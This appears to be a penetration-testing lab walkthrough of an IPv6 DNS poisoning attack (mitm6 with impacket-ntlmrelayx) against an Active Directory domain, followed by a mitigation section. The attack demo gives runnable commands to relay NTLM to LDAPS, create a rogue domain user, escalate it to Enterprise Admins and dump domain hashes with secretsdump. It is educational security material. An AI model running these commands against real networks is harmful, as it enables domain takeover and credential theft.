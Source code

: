 # What is IPv6?

IPv6, or Internet Protocol version 6, is the most recent version of the Internet Protocol (IP) that is used to identify and locate devices on a network. It is designed to succeed IPv4, which has been the predominant version of the IP for many years. 

# What is an IPv6 DNS Takeover Attack

In an IPv6 DNS Takeover attack, imagine trying to send a letter (data) to your friend and you instruct a mailman (DNS server) to deliver the letter to the right address. Now a thief (Attacker) intercepts the letter in transit and changes the destination address on the envelope (the DNS records), to their (the attacker) own address. This can happen because the attacker tricks the mailman (DNS server) into thinking the specified address is correct.

In a DNS takeover, the attacker typically exploits vulnerabilities in the DNS infrastructure or configuration to gain control over the DNS records associated with a domain. This enables the attacker to redirect traffic intended for a legitimate website or domain to a server under their control. Such actions can lead to various malicious activities, including phishing, malware distribution, or interception of sensitive information.

# Attack DEMO

**Tools needed to perform this attack:**

- ntlmrelayx - If you don't have kali linux, download this script https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py. Kali Linux comes preinstalled with impacket tools. You can start it up using the command `impacket-ntlmrelayx` or first of all locate the script using `locate ntlmrelayx` then specify the full path of the tool to start it:

![](attachments/20240305155204.png)

- mitm6 - Steps to install:
	-  git clone https://github.com/dirkjanm/mitm6.git
	- cd mitm6 
	- pip install -r requirements.txt
	- sudo python2 setup.py install
	- sudo mitm6 ✅

## Step 1: Start up ntlmrelayx and mitm6

ntlmrelayx:

![](attachments/20240304150525.png)
`impacket-ntlmrelayx -6 -t ldaps://DOMAIN-IP -wh fakewpad.DOMAIN.local -l loot`
The IP specified is the Domain IP address. The information dumped will be stored in a folder named loot.

mitm6:

![](attachments/20240304150712.png)
`sudo mitm6 -d DOMAIN.local`
Target Domain specified.

## Step 2: An Even Occurs in the Network

We need an event to trigger. For example, we can wait for a victim to restart their machine.
After an event is triggered, the victim's hash is captured and relayed to the Domain Controller to authenticate and information about the Domain is dumped

![](attachments/20240304151412.png)

Top is the **ntlmrelayx** and bottom is **mitm6**.

## Step 3: Inspect Loot

Information about the domain is dumped in the folder specified called `loot`

![](attachments/20240304151516.png)

Information is dumped in 3 different formats: JSON,HTML,GREP

![](attachments/20240304153934.png)

Now the event triggered was due to a system reboot which caused information about the domain to get dumped. What of an event like a user login was triggered instead?

## Another Event is triggered (Login)

A user logs in to a system as the Domain Administrator

![](attachments/20240304154232.png)

## Restart ntlmrelayx

After this event occurs, restart the ntlmrelayx and a Domain user will be automatically created.

![](attachments/20240304154510.png)
`username: OTCJytDYGp and password: Zf;vifJvQU56$cw`

Confirmation that the user was indeed created.

![](attachments/20240304154651.png)

Although this user is only a domain user.

![](attachments/20240304154723.png)

## Privilege Escalation

We can also escalate their privileges to **Domain Admin**:

![](attachments/20240304154822.png)

By adding `--escalate-user <username>` we can perform this action.

Next is to wait for another event to trigger and restart ntlmrelayx.

![](attachments/20240304155634.png)

This results in a successful Privilege Escalation of the user. The user has successfully been added to the Enterprise Admins Group.

![](attachments/20240304155816.png)
## Dumping Hashes

We can now dump hashes with our newly created user credentials

![](attachments/20240304161456.png)

`impacket-secretsdump -dc-ip DOMAIN-IP -just-dc DOMAIN.local/'username':'password'@DOMAIN-IP`

# Mitigation

**Mitigation Strategies:**

1. IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4 -only environments. If you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6(DHCPV6-Out)

2. If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc Service.

3. Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding.

4. Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

